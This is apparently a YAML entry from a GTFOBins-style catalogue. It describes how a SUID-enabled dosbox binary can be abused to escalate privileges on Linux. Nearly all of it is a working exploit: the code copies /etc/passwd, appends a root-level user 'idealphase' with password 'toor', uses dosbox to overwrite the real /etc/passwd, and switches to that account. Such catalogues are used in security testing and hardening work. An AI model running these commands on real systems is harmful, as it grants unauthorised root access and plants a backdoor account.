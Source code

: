 ```yaml
---
functions:
  SUID:
    - description: Please change username to whatever you want and passwod is `toor`.
      code: |
		cp /etc/passwd /tmp/passwd
		echo "idealphase:sXuCKi7k3Xh/s:0:0::/root:/bin/bash" >> /tmp/passwd
		/usr/bin/dosbox -c "mount c /etc/" -c "mount d /tmp/" -c "d:" -c "copy passwd c:"
		su idealphase
---
```

